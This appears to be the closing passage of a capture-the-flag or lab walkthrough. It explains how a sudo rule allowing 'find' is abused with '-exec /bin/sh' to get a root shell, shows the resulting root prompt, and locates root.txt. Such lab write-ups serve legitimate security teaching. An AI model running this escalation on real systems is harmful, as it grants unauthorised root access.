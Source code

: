 Note: I have decided to research this a bit more. Here is a quick breakdown.

- ```sudo find .```: Runs the find command with elevated privileges, searching from the current directory (```.```).

- ```-exec /bin/sh \;```: For each file find encounters, it executes ```/bin/sh```, which gives you a shell. The backslash before ```;``` is to escape it so the shell interprets it correctly.

- ```-quit```: Tells find to stop after the first match, meaning it only spawns one shell.

*Once we run this command, we successfully obtain a root shell.*

```
john@base:~$ sudo find . -exec /bin/sh \; -quit
[sudo] password for john: 
# whoami
root
#
```

The root flag can be found using my command of choice:

```
find / -name root.txt 2>/dev/null
```

Note:  ```Ctrl + D``` should be the easiest method for gracefully closing shells spawned through a command like ```/bin/sh```. This sends an EOF (End Of File) signal, which usually terminates the shell.

This example is now concluded.

